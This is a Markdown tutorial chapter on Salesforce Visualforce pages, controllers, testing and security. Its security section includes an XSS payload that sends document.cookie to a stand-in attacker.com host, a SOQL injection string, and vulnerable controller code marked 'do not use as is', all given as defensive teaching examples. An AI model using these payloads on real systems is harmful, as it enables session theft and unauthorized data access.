



# Visualforce

Salesforce provides great configuration tools for you to drag and drop to glory.

But, your requirements may go beyond the traditional UI -

- have a different layout - more columns, irregular columnar structure as compared to the traditional 2-column layout
- need fields to perform magic and provide user interactivity as user inputs data (rather than waiting for the server round-trip)
- have buttons at all the wrong places
- display other UI elements like a chart, inner tabs to structure data etc.

You can customise UI using -

1. Lightning framework: create Lightning components that you can reuse in your Lightning UI. This is most likely the approach that you will be following today unless you are working on an older Salesforce Classic implementation that is yet to migrate all the parts
1. Visualforce: the older page customisation framework that is relevant until the time Classic exists

We will see more on Visualforce("VF") in this chapter.

You use Visualforce to build complex, custom user interfaces natively in Salesforce -

- Custom UI look & feel
- Override functionality on user actions like button click
- Define custom tabs, change tab overview pages
- Create dashboard components
- Create custom help pages
- Add menu items, and actions



We adhere to the traditional MVC architecture even when using Visualforce. It provides the UI layer and relies on an backend standard Salesforce controller, or custom-built logic in Apex.

Visualforce co-exists with Lightning components -

- older VF pages can be displayed within Lightning framework
- standard elements can even get the Lightning look & feel using Salesforce supplied style sheets
- will gradually retire

## Developing Visualforce page

To create a Visualforce page -

- Navigate to **Setup** > **Developer Console**
- Click on **New** > **Visualforce page**
- Add Salesforce provided components or custom components that use own styling
- You can preview the page in development and iterate quickly

The code looks like this..

```js
<apex:page standardController="Contact">
  <apex:form>
    <apex:pageBlock title="Edit Contact">
      <apex:pageBlockSection columns="1">
        <apex:inputField value="{!Contact.FirstName}" />
        <apex:inputField value="{!Contact.LastName}" />
        <apex:inputField value="{!Contact.Email}" />
        <apex:inputField value="{!Contact.Birthdate}" />
      </apex:pageBlockSection>
      <apex:pageBlockButtons>
        <apex:commandButton action="{!save}" value="Save" />
      </apex:pageBlockButtons>
    </apex:pageBlock>
  </apex:form>
</apex:page>
```

<br>_src: salesforce.com_

## Components of a Visualforce Page

Visualforce is said to be "page centric" - a page is built using Visualforce tags supplied by Salesforce mixed with HTML / Javascript. It contains components that are provided by salesforce or added by you, and is tied to a back-end Salesforce (or an integrating system).

When user navigates to a Visualforce page or click a button on the page -

- User action triggers generation of the Visualforce page on server using Visualforce tags, HTML, Javascript and data within Salesforce
- Custom controller logic is enforced and permissions are evaluated, data fetched from Salesforce or integrating systems
- The page is then delivered to browser for rendering


A Visualforce page consists of -

- **Markup** that provides all UI elements to be displayed on page
  - Visualforce tag
  - HTML
  - Javascript
  - Any other web component
  - Embedded within a container `<apex:page>` tag
- **Controller** that provides business logic and backend actions
  - Instructions that specify how components behave when user interacts with page
  - Provide access to data and can modify component behaviour
  - VF page can use –
    - Standard controller (provided by Salesforce)
    - Standard list controller (provided by Salesforce)
    - Custom controller (write your own Apex code)
    - Controller extension (write your code + salesforce functionality is available for use)


### Visualforce Tags

Commonly used Visualforce tags are outlined in the below table -

| Name                    | Description                                                                                                               |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------- |
| <apex:page>             | Root tag to enclose VF page. Enables a no. of functionalities incl. XSS automatically; tags here specify controller types |
| <apex:pageBlock>        | Create a page block with default styling                                                                                  |
| <apex:pageBlockSection> |                                                                                                                           |
| <apex:outputField>      | Displays fields with default formatting based on type                                                                     |
| <apex:pageBlockTable>   | Show data table                                                                                                           |
| <apex:relatedList>      | Display standard related lists with all related components defined in layout                                              |
| <apex:detail>           | Show detail fields defined in the object layout                                                                           |
| <apex:form>             | Shows a form component that takes inputs from user                                                                        |
| <apex:inputField>       | Input field on a form                                                                                                     |
| <apex:commandButton>    | Enables user action on button click                                                                                       |

## Deeper into Visualforce Code

Let us look at what makes up Visualforce code.

### Expressions and variables

Visualforce uses 'expressions' to display data in markup. These can be global variables, properties & calculations. The typical syntax -

`{! expression }`

Use conditional expression for value-driven decisions

You can use global variables to get system values and resources. Formulae incl. functions and operators enables manipulation of those values.

```js
<apex:page>
  <apex:pageBlock title="User Status">
    <apex:pageBlockSection columns="1">
      {!$User.FirstName} {!$User.LastName}({!$User.Username})
      <br />
      <p>Next week it will be {!TODAY() + 7} </p>
      <p>{!IF(DAY(TODAY()) < 15, "Before the 15th", "The 15th or after")}</p>
    </apex:pageBlockSection>
  </apex:pageBlock>
</apex:page>
```

### Using Static Resources in Visualforce

Static resources in Salesforce can be

- stylesheets, javascript etc. that are used by your Visualforce page
- images, files, or anything that is not part of Salesforce data but have to be made available for users

It is recommended to pickup Javascript etc. from static resources to minimize security concerns, speed up resource management & deliver faster to client

You can use static resources in Visualforce by introducing a reference using `$Resource.<name>` tag.

Here are a couple of examples -

**Display an image**

```js
<apex:image url="{!$Resource.TestImage}" width="50" height="50" />
```

**Show PDF content**

```js
<apex:page renderAs="pdf" controller="MyController">
  <apex:variable var="imageVar" value="{!imageName}" />
  <apex:image url="{!URLFOR($Resource.myZipFile, imageVar)}" />
</apex:page>
```

## Visualforce Controllers

Controllers provide back-end logic for your Visualforce page - they represent the "C" part of "MVC" (name is a give-away).

### Standard Controllers

Standard controllers provide the same functionality & logic used by standard salesforce page. They -

- are easy to configure
- leverage back-end Salesforce functions for a custom UI

You don't have to code backend logic on your own. This is a built-in controller that provides data access, support for standard actions.

Standard controllers are used for showing the "detail" record, and needs the record id to work with. Standard controller takes care of receiving id parameter from URL, querying record, binding variables and displaying value in the Visualforce tag.

Example code -

```js
<apex:page standardController="Account">
  <apex:pageBlock title="Account Summary">
    <apex:pageBlockSection>
      Name: {!Account.Name} <br />
      Phone: {!Account.Phone} <br />
      Industry: {!Account.Industry} <br />
      Revenue: {!Account.AnnualRevenue} <br />
      Account owner: {!Account.Owner.Name} <br />
    </apex:pageBlockSection>
  </apex:pageBlock>
</apex:page>
```

Another example that includes key tags -

```js
<apex:pageBlock title="Contacts">
  <apex:pageBlockTable value="{!Account.contacts}" var="contact">
    <apex:column>
      <apex:outputLink value="{! URLFOR($Action.Contact.Edit, contact.Id) }">
        Edit
      </apex:outputLink>
      &nbsp;
      <apex:outputLink value="{! URLFOR($Action.Contact.Delete, contact.Id) }">
        Del
      </apex:outputLink>
    </apex:column>
    <apex:column value="{!contact.Name}" />
    <apex:column value="{!contact.Title}" />
    <apex:column value="{!contact.Phone}" />
  </apex:pageBlockTable>
</apex:pageBlock>
```

This block of code will render the UI shown below -



### Standard List Controllers

Standard list controllers are used to display (& enable actions on) set of records (e.g. related lists, list pages). They are similar to standard controller in all other respects.

A standard list controller -

- Loads collection of records
- does not require id
- Enables list functions like –
  - Query
  - Filtering
  - Pagination

Example code -

```js
<apex:page standardController="Contact" recordSetVar="contacts">
    <apex:form>
        <apex:pageBlock title="Contacts List" id="contacts_list">

            Filter:
            <apex:selectList value="{! filterId }" size="1">
                <apex:selectOptions value="{! listViewOptions }"/>
                <apex:actionSupport event="onchange" reRender="contacts_list"/>
            </apex:selectList>
            <!-- Contacts List -->
            <apex:pageBlockTable value="{! contacts }" var="ct">
                <apex:column value="{! ct.FirstName }"/>
                <apex:column value="{! ct.LastName }"/>
                <apex:column value="{! ct.Email }"/>
                <apex:column value="{! ct.Account.Name }"/>
            </apex:pageBlockTable>

        </apex:pageBlock>
    </apex:form>
</apex:page>

```

_src: salesforce.com_

The code will render the following UI -



### Custom Controller

You can use custom controllers and write your own custom logic in Apex to define new navigation, custom behaviours for user actions.

Custom controllers provide a way to to re-write any Salesforce OOB functionality required in UI and exercise complete control over UI and logic.

- Custom logic and data manipulation
- Write your own controller to provide data and handle actions
- Use cases may include:
  - Custom look & fell (e.g. use Bootstrap UI rather than Salesforce styles)
  - Make calls to external webservices, and update data within UI

Custom controllers execute in system mode, therefore, any user permissions are ignored. Provide access to method execution depending on user profile if you want to respect security rules (you should, but we don't preach).

Example code -

**Visualforce page**

```js
<apex:page controller="ContactsListController">
    <apex:form>
        <apex:pageBlock title="Contacts List" id="contacts_list">

            <!-- Contacts List goes here -->
        </apex:pageBlock>
    </apex:form>
</apex:page>
```

**Controller**

```java
private String sortOrder = 'LastName';

public List<Contact> getContacts() {

    List<Contact> results = Database.query(
        'SELECT Id, FirstName, LastName, Title, Email ' +
        'FROM Contact ' +
        'ORDER BY ' + sortOrder + ' ASC ' +
        'LIMIT 10'
    );
    return results;
}

```

_src: salesforce.com_


### Controller Extension

Best of both worlds - Controller Extensions are the right mix of standard and custom behaviour.

Using controller extensions, you can -

- Add or override behaviour to standard or custom controller
- Easier way to customize page while retaining functions like user-based permissions
- Provide access to method execution depending on user profile

## Testing Visualforce pages

Here are a few pointers on testing Visualforce pages -

- Test VF pages using multiple use cases relevant to how your users use the system
  - In all types of devices used by users (incl. actual mobile devices)
  - Use different browsers
  - Multiple locations if relevant
  - Test with large data volumes
- Consider following parameters while testing -
  - Record and analyse view state, performance, user behaviour during normal and lazy loading
  - Compare metrics with standard salesforce pages where comparable data is available
- Use test automation where possible
  - Tools like Selenium speed up testing and bring more consistency
  - Use test sets to test common user behaviour for quick testing as well as comprehensive tests using all possible user actions

Testing process for controllers follow the same rules and best practices applicable for Apex.

Always -

- Write test class for 100% coverage - evaluate all decision branches and loops
- Test with large test data volumes and use data variations

## Security in Visualforce

Consider application and data security in your design of Visualforce pages.

You should apply access rules to enable Visualforce page to intended audience only -

- Set page access rules - provide access to VF pages for specific profiles

Apply data security rules for your controllers -

- use `with sharing` in controllers to prevent overreach
- provide access to controllers to intended audience only (class access can be provided for top-level Apex only)
- provide access to methods for specific profiles
- best practices for Apex apply

Since Visualforce is a frontend component, following security considerations applicable for general webpages apply -

- Use Visualforce front end security best practices to prevent - XSS, CSRF attacks (see below)
- Avoid vulnerabilities from unescaped formula expressions on VF page
- Introduce checks to sanitize user input and prevent SOQL injection
- Use iFrames to display data from unsecured sources if there is no other way to secure information

Combine these practices with overall Salesforce security including IP range filters, valid login times, two-factor authentication to minimize vulnerability surface area.

### Cross site scripting (XSS)

XSS is a term that refers to the possibility of including malicious HTML/Javascript in a web application to overcome system-defined access rules and gain access to view/edit information.

All pages with `<apex:page>` tag have automatic XSS protection. HTML tags are escaped by using this tag to prevent potentially malicious content.

You are responsible for security and have to use caution for -

- using `escape=false` in tags
- coding your own Javascript.

For example, consider the below code included in your page -

```html
<script>
  var foo = '{!$CurrentPage.parameters.userparam}';script>
  var foo = '{!$CurrentPage.parameters.userparam}';
</script>
```

A malicious actor can use an totally unexpected `userparam` provided below to send cookies to a third party site.

```js
1';document.location='http://www.attacker.com/cgi-bin/cookie.cgi?'%2Bdocument.cookie;var%20foo='2


```

### Cross Site Request Forgery (CSRF)

CSRF refers to third party sites using resources from Salesforce site and trying to gain users' trust masquerading as some other site.

An example code that can be used is below -

```html

```

If user is already logged in, external site can display secure information in the trusted site to the attacker.

Sites prevent this sort of attack using a trusted token (the secret is maintained b/w client and server). Each Salesforce page includes a anti-CSRF token to prevent 3rd party sites requesting for data.

Use caution in your own Apex controllers that processes user input data - there is no one fool-proof way to prevent this altogether.

### SOQL Injection

Malicious actors can introduce content through user input to make the application behave in strange ways or gain access to data that user does not normally have access to.

SOQL injection is similar to SQL injection - only this time our Apex pages are using SOQL to perform data operations and SOQL can be injected through a frontend page.

To prevent SOQL injection -

- do not use user-provided input directly
- always 'escape' content before using in SOQL: HTML tags are escaped to prevent potentially malicious content to change application behaviour

For example, consider the below code -

**Visualforce page** [ - do not use as is -]

```js
<apex:page controller="SOQLController" >
    <apex:form>
        <apex:outputText value="Enter Name" />
        <apex:inputText value="{!name}" />
        <apex:commandButton value="Query" action="{!query}“ />
    </apex:form>
</apex:page>
```

**Controller** [ - do not use as is -]

```java
public class SOQLController {
    public String name {
        get { return name;}
        set { name = value;}
    }
    public PageReference query() {
        String qryString = 'SELECT Id FROM Contact WHERE ' +
            '(IsDeleted = false and Name like \'%' + name + '%\')';
        queryResult = Database.query(qryString);
        return null;
    }
}
```

Instead of user typing in a name, they can input

```
test%') OR (Name LIKE '
```

.. which will get them unrestricted access to data since the controller now produces the below SOQL -

```
SELECT Id FROM Contact WHERE (IsDeleted = false AND Name LIKE '%test%') OR (Name LIKE '%')

```

You can avoid this problem quite easily by 'escaping' user provided input. That will change the search string in SOQL to an expected -

```
SELECT Id FROM Contact WHERE (IsDeleted = false AND Name LIKE 'test\%\'\) OR \(Name LIKE'

```

.. which will try to retrieve the hapless chap by the name `test%') OR (Name LIKE '`.

### Unescaped Output and Formulas in Visualforce Pages

Formula expressions in Visualforce can be function calls or include other system information – these are rendered as-is and not escaped. Malicious code may be included and page re-rendered to obtain unauthorised access.

Example of **unsecure** code -

```js
<apex:page standardController="Account">
  <apex:form>
    <apex:commandButton rerender="outputIt" value="Update It" />
    <apex:inputText value="{!myTextField}" />
  </apex:form>

  <apex:outputPanel id="outputIt">
    Value of myTextField is{" "}
    <apex:outputText value="{!myTextField}" escape="false" />
  </apex:outputPanel>
</apex:page>
```

Always use `HTMLENCODE`, `JSENCODE`, `JSINHTMLENCODE` or `URLENCODE` to escape rendered strings in order to sanitise input!

Recommended code -

```js
<apex:outputText value=" {!HTMLENCODE(myTextField)}" escape="false" />
```

## Visualforce Best Practices

Here are a few best practices to consider while creating Visualforce pages -

- Maintain manageable view state - view state refers to all data to maintain controller state
  - View state data size should be less than 135 KB
  - Make variables transient if not essential to maintain state
  - Minimize SOQL objects/fields in Visualforce page
  - Minimize no. of components
- Improve load times
  - Cache data incl. static data like images
  - Avoid SOQL queries in Apex controller getter methods
  - Limit no. of records displayed on page
  - Consider moving Javascript above </apex:page> (closing tag)
- Lazy load apex objects
- Apex page size cannot be more than 15MB at any time

## References & Further Study

### Read

1. [VF guide](https://developer.salesforce.com/docs/atlas.en-us.216.0.pages.meta/pages/pages_intro.htm)

2. [Visualforce in Practice](https://www.developerforce.com/guides/Visualforce_in_Practice.pdf)

### Watch

1. [Efficient Visualforce pages](https://www.youtube.com/watch?v=D2dAk99Yxvs)[](https://www.youtube.com/watch?v=KJk56couAIo)

2. [Data access best practices](https://www.youtube.com/watch?v=KJk56couAIo)

3. [Lightning experience with Visualforce best practices](https://www.youtube.com/watch?v=82bVlNigOcI)

### Do

- Complete on Trailhead --

  - [VF basics](https://trailhead.salesforce.com/content/learn/modules/visualforce_fundamentals)

- Follow groups/ topics --
  - [Visualforce development](https://developer.salesforce.com/forums?dc=Visualforce_Development&feedtype=RECENT&criteria=ALLQUESTIONS&)

## Workshop

Complete following tasks.

| No. | Type    | Description            | Time (hrs) |
| --- | ------- | ---------------------- | ---------- |
| 1   | Do      | Simple UI              | 2          |
| 2   | Do      | Beyond Simple UI       | 4          |
| 3   | Present | Discuss completed work | 1          |

### Simple UI

1. Create a partner specific UI page using VF with following entities
   - My Customers (show only customer interacted with me in the last 6 months)
   - Detail page with vehicles in list format, vehicle’s service history
2. Add ‘Send Reminder’ button to Opportunity. This sends reminder to partner to follow up and also creates a chatter notification

### Beyond Simple UI

1. Create Inquiry form using Bootstrap 4 and Visualforce
2. Create list view for opportunity
   - Ability to click on a button and ‘cancel’ all selected opportunities
   - Ability to apply adhoc discount by getting the value from user against all select opportunities
3. Create a service invoice page that lists all service items and service parts, calculates tax
4. Create a PDF render of the service invoice page

## Teaching Aids

### Presentation

#### 1. Visualforce: sf-cog

&nbsp;

<iframe src="https://docs.google.com/presentation/d/e/2PACX-1vQa7UBxFsA5J1hl8RsFgPwRAK9nuyfVbjNDwi-ykLVksFp-mnCWeM15NgHQYlW7Zw/embed?start=false&loop=false&delayms=3000" frameborder="0" width="800" height="600" allowfullscreen="true" mozallowfullscreen="true" webkitallowfullscreen="true"></iframe>

[More info](/misc/pricing#sf-cog)
